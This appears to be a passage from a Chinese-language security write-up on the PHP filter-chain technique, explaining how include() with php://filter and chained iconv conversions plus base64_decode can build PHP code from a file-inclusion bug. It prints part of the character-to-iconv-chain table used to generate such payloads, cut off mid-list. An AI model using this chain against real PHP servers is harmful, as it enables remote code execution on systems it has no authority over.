 好，在了解上述特征之后，来看payload：

```python
include("php://filter/.....")
```

关于这一点，实属是没想到 include 还能支持 伪协议, 这也是这个payload的关键。 可以直接将 `php://` 的内容，如果该文件时 PHP为难，则会直接执行里面的代码。

**挖坑：有哪些内置函数还支持伪协议？**

核心思路：通过 `php://filter/.....` 构造恶意代码。

如何构造？

由于编码转换会生成额外的字符，并且base64_decode 函会自动抛弃非 base64编码字符，所以目标就是使用连续编码转换得到我们想要的字符串，编码表如下：

```python
conversions = {
    '0': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2',
    '1': 'convert.iconv.ISO88597.UTF16|convert.iconv.RK1048.UCS-4LE|convert.iconv.UTF32.CP1167|convert.iconv.CP9066.CSUCS4',
    '2': 'convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP949.UTF32BE|convert.iconv.ISO_69372.CSIBM921',
    '3': 'convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.ISO6937.8859_4|convert.iconv.IBM868.UTF-16LE',
    '4': 'convert.iconv.CP866.CSUNICODE|convert.iconv.CSISOLATIN5.ISO_6937-2|convert.iconv.CP950.UTF-16BE',
    '5': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.8859_3.UCS2',
    '6': 'convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.CSIBM943.UCS4|convert.iconv.IBM866.UCS-2',
    '7': 'convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.iconv.ISO-IR-103.850|convert.iconv.PT154.UCS4',
    '8': 'convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2',
    '9': 'convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB',
    'A': 'convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213',
    'a': 'convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE',
    'B': 'convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000',
    'b': 'convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE',
    'C': 'convert.iconv.UTF8.CSISO2022KR',
    'c': 'convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2',
    'D': 'convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213',
    'd': 'convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5',
    'E': 'convert.iconv.IBM860.UTF16|convert.iconv.ISO-IR-143.ISO2022CNEXT',
    'e': 'convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UTF16.EUC-JP-MS|convert.iconv.ISO-8859-1.ISO_6937',
    'F': 'convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP950.SHIFT_JISX0213|convert.iconv.UHC.JOHAB',
    'f': 'convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213',
    'g': 'convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8',
    'G': 'convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90',
    'H': 'convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213',
    'h': 'convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE',
    'I': 'convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.BIG5.SHIFT_JISX0213',
    'i': 'convert.iconv.DEC.UTF-16|convert.iconv.ISO8859-9.ISO_6937-2|convert.iconv.UTF16.GB13000',
    'J': 'convert.iconv.863.UNICODE|convert.iconv.ISIRI3342.UCS4',
    'j': 'convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.iconv.CP950.UTF16',
    'K': 'convert.iconv.863.UTF-16|convert.iconv.ISO6937.UTF16LE',
    'k': 'convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2',
```